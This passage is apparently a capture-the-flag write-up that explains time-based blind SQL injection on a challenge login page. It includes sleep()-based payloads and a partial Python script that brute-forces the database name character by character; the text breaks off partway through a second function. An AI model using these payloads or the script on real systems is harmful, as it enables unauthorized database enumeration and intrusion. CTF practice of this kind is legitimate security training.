 This query will sleep for a period of 10 seconds if the database letter starts with `a` and any other characters in front **(remember % == wildcard)*

If it's true then we start brute forcing the second character

```
a' AND (select sleep(10) from dual where database() like 'ab%');-- -
```

This query will sleep for a period of 10 seconds if the database letter starts with `a` followed by `b` and any other characters in front

So we will loop through the entire alphabet and digits and special characters and when the request sleep by 10 seconds we’ll believe that the character we were brute forcing at the period of time is probably the correct character. 

To make the process a little less tedious I created a python script that automates the process of brute forcing characters

Here's what my solve [script](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/ecowas23/prequal/web/Ma%C3%AFmouna/enumerate.py) will do:
- Enumerate database name
- Get the mysql name
- Enumerate table

Here's my solve script

```python
import string
import requests
import time
import sys

# Trash script made by HackYou to enumerate Blind /Time based SQLI 

def bf_db():
    chars = string.printable[:-6]
    session = requests.session()
    url = "https://ctftogo-3-mice.chals.io/login"

    print('[+] Started brute forcing')
    phew = ""
    while True:
        for char in chars:
            name = f"{phew}{char}"
            sys.stdout.write(f"\r[+] Database name: {name}")
            payload = f"a' UNION SELECT NULL,NULL,NULL AND (select sleep(5) from dual where database() like '{name}%') #"
            data = {
                "username": payload,
                "password": "pass"
            }
            time_started = time.time()
            output = session.post(url, data=data, allow_redirects=False)
            time_finished = time.time()
            time_taken = time_finished - time_started
            if time_taken < 5:
                pass
            elif char == "%":
                pass
            else:
                phew += char
                break
       
def bf_mysql():
    chars = string.printable[:-6]
    session = requests.session()
    url = "https://ctftogo-3-mice.chals.io/login"
```